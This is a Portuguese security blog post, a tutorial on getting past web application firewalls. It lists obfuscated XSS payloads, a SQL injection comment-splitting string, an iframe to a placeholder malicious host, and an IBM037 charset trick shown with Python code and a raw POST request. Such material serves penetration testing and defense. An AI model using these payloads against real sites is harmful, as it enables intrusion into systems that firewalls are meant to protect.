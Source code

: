 ```yaml
---
date: 2023-01-07 16:58:42
layout: post
title: Maneiras de contornar seu firewall de aplicativo da Web (WAF)
description: Maneiras de contornar seu firewall de aplicativo da Web (WAF)
image: https://res.cloudinary.com/k4bv734/image/upload/v1689536360/waf_q61cuu.jpg
optimized_image: https://res.cloudinary.com/k4bv734/image/upload/v1689536360/waf_optimized_ooub1l.jpg
category: ciberseguranca
tags:
  - waf
  - cybersecurity
author: brunocosta
paginate: false
---
```

> **Aviso: Conteúdo Sensível em Cibersegurança**

> Este aviso tem o objetivo de informar sobre a natureza sensível do conteúdo relacionado à cibersegurança que será abordado neste texto. O conteúdo a seguir foi criado com fins puramente educacionais e para pesquisa, visando a conscientização e a compreensão dos desafios enfrentados na proteção de sistemas e informações digitais.

Neste artigo, discutiremos as ferramentas e técnicas usadas por testadores de penetração de aplicativos da web e pesquisadores de segurança para contornar com sucesso as proteções do Firewall de Aplicativos da Web (WAF).

Dependendo dos mecanismos usados pelo firewall, os métodos de bypass podem variar. Por exemplo, os WAFs podem utilizar expressões regulares (regex) para detectar tráfego malicioso. As expressões regulares são usadas para identificar padrões em uma sequência de caracteres. Você pode ler mais sobre elas [aqui](https://regexr.com/). Além disso, os WAFs também podem usar detecção baseada em assinatura, na qual sequências conhecidas de tráfego malicioso possuem uma assinatura armazenada em um banco de dados, e o firewall verifica se há correspondência entre o tráfego da web e as assinaturas no banco de dados. Se houver correspondência, o tráfego é bloqueado. Além disso, alguns firewalls usam detecção baseada em heurística.

Agora vamos explorar algumas técnicas comuns de bypass do WAF juntamente com exemplos.

1. **Ignorando o Regex**: Este método se aplica à filtragem baseada em regex feita pelo WAF e pelo servidor web. Durante um teste de penetração de caixa preta, pode ser difícil descobrir a expressão regular exata utilizada pelo WAF. No entanto, se a expressão regular for conhecida, é possível contorná-la usando algumas técnicas. Aqui estão alguns exemplos:

   - Alteração do caso da carga útil
   - Uso de várias codificações
   - Substituição de funções ou caracteres
   - Uso de sintaxe alternativa
   - Uso de quebras de linha ou tabulações

   Os exemplos abaixo demonstram algumas abordagens para contornar o regex com comentários.
```
<sCrIpT>alert(XSS)</sCriPt> #alterando o caso da tag
<< script>alert(XSS)</script > #prependendo um "<"
<script>alert(XSS) adicional // #removendo o fechamento tag
<script>alert`XSS`</script> #usando acentos graves em vez de parênteses
java%0ascript:alert(1) #usando caracteres de nova linha codificados
<iframe src=http://malicous.com < #colchetes angulares duplos
<STYLE >.classname{background-image:url( "javascript:alert(XSS)" );}</STYLE> #tags incomuns
<img/src=1/onerror=alert(0)> #ignorar filtro de espaço usando / where espera-se um espaço
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaa aaaaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #caracteres extras
```



2. **Ofuscação**: Embora a ofuscação seja uma maneira possível de ignorar o regex, eles foram divididos em diferentes seções para mostrar mais exclusivamente uma seleção de técnicas de ofuscação. A ofuscação é uma técnica utilizada para tornar o código malicioso mais difícil de ser detectado pelo WAF. Aqui estão alguns exemplos de técnicas de ofuscação:

   - Uso de funções incomuns além de alert, console.log e prompt
   - Codificação octal
   - Codificação Unicode
   - Uso de comentários para quebrar instruções SQL
   - Uso de acentos graves ao invés de parênteses
   - Codificação Base64 do JavaScript
   - Codificação HTML

   Essas técnicas podem ajudar a contornar a detecção do WAF. Exemplos abaixo:
```
Function( "ale" + "rt(1)" )(); #usando funções incomuns além de alert, console.log e prompt
javascript:74163166147401571561541571411447514115414516216450615176 #codificação octal
<iframe src= "javascript:alert(`xss`)" > #codificação unicode
/? id =1+un/**/ion+sel/**/ect+1,2,3-- #usando comentários na consulta SQL para quebrar a instrução
new Function`alt\`6\``; #usando acentos graves ao invés de parênteses
data:text/html; base64 ,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 codificando o javascript
%26%2397;lert(1) #usando codificação HTML
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)" > #Using Line Feed (LF) line breaks
<BODY onload! #$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use quaisquer caracteres que não sejam letras, números ou caracteres de encapsulamento entre o manipulador de eventos e o sinal de igual (só funciona no motor Gecko)
```



3. **Variáveis não inicializadas**: Uma técnica potencialmente útil envolve o uso de variáveis não inicializadas na solicitação. Isso pode ser especialmente útil em cenários de execução de comandos, onde o Bash trata variáveis não inicializadas como strings vazias. Ao concatenar strings vazias com uma carga útil de comando, é possível obter o resultado desejado. Isso pode ser usado como uma forma de ofuscação para contornar firewalls.



4. **Tamanho do conteúdo**: Alguns WAFs baseados em nuvem podem não verificar uma solicitação se o tamanho do conteúdo exceder um limite específico. Nesses casos, é possível contornar o firewall aumentando o tamanho do corpo da solicitação ou da URL.

5. **Conjunto de caracteres**: Essa técnica envolve a modificação do cabeçalho Content-Type para usar um conjunto de caracteres diferente, como por exemplo "ibm500". Um WAF que não está configurado para detectar cargas maliciosas em diferentes codificações pode não reconhecer a solicitação como maliciosa. A codificação do conjunto de caracteres pode ser feita em Python da seguinte maneira:

```
$ python3
-- snip --
>>> import urllib.parse
>>> s = '<script>alert("xss")</script>'
>>> urllib.parse.quote_plus(s.encode("IBM037"))
'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n'
```

A string codificada pode então ser enviada no corpo da solicitação e carregada no servidor, como exemplificado abaixo:

```
POST /comment/post HTTP/1.1
Host: chatapp
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 74

%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3
```

Essa técnica permite que a solicitação seja processada pelo servidor, contornando as verificações do WAF que não estão configuradas para detectar essa codificação específica.




Para obter mais informações e explorar outras técnicas, veja mais em:
- [How to bypass WAF - HackenProof Cheat Sheet](https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/)
- [Bypassing Web Application Firewall (WAF) - Unicode](https://jlajara.gitlab.io/Bypass_WAF_Unicode)
- [Web Application Firewall Bypass Techniques](https://blog.yeswehack.com/yeswerhackers/web-application-firewall-bypass/)
- [Identifying Web Application Firewall in a Network](https://www.sisainfosec.com/blogs/identifying-web-application-firewall-in-a-network/)
- [OWASP Stammtisch Frankfurt - WAF Profiling and Evasion](https://owasp.org/www-pdf-archive/OWASP_Stammtisch_Frankfurt_WAF_Profiling_and_Evasion.pdf)
- [5 Ways I Bypassed Your Web Application Firewall (WAF)](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2)

Esses recursos oferecem informações valiosas sobre como contornar as proteções do WAF em diferentes cenários.